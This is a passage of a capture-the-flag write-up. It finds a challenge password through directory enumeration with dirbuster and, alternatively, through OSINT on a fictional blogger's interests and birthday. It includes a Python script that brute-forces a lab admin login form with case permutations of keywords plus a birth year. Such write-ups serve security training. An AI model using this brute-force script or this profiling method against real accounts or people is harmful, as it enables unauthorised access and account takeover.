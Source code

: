 > Here is the config of dirbuster
> 
>![](https://i.imgur.com/on4B3Cu.png)

I started the tool and find the creds.txt directly.

> ![](https://i.imgur.com/qK0R5hv.png)

Then i browse the creds.txt file.
> ![](https://i.imgur.com/Puvsow8.png)

The password is "Badger1992"

### Alternative - OSINT<a name="OSINT"></a>

> This part (Alternative - OSINT to find the password) of the writeup was copied from the official writeup from [@_magnussen_](https://twitter.com/_magnussen_) maker of the challenge. There is only few little change to be coherent with this writeup.

I'v seen before that the answer of the secret question was "Badger", the question was: "What's your favorite animal?".

So i know that his favorite animal is "Badger", Also i can see that he wrote an article about it.

By reading the articles on the blog we found out:

- There's an upload part that resizes pictures, each article has it's own picture.
- He was previously hacked and the hacker uploaded 'Dumb Pictures', and the attacker has guessed his password.
- The login form is closed.
- He uses versionning (Gitea).
- He loves Badger, Beer, Bamboo and Brownie
- He's 28 years old and is birthday is the 11th of February and it's also his 'Beerthday'.

There were an issue in GitHub(https://github.com/Michael-SharkyMaster/website/issues/1) which said an useful thing for brute force:
> Also, I must change my password, maybe by something I could easily remember but more complicated (numbers, lowercase, uppercase etc).

We can use the following script to brute force the login form (we won't be able to log in with it, but if we found the right password, we'll have this message "This feature is currently disabled.").

```python
# coding: utf-8
import requests
import itertools

if __name__ == '__main__':
    url = 'http://172.30.0.2/admin/login.php'

    successful_message = "This feature is currently disabled."

    keyword = ['beer', 'badger', 'brownie', 'bamboo']

    birth = 2020 - 28

    for value in keyword:
        for word in map(''.join, itertools.product(*((c.upper(), c.lower()) for c in value))):
            password = word + str(birth)
            request = requests.post(url, data={'login': 'Michael', 'password': password})

            if successful_message in request.text:
                print("The password is: {}".format(password))
                exit()
```
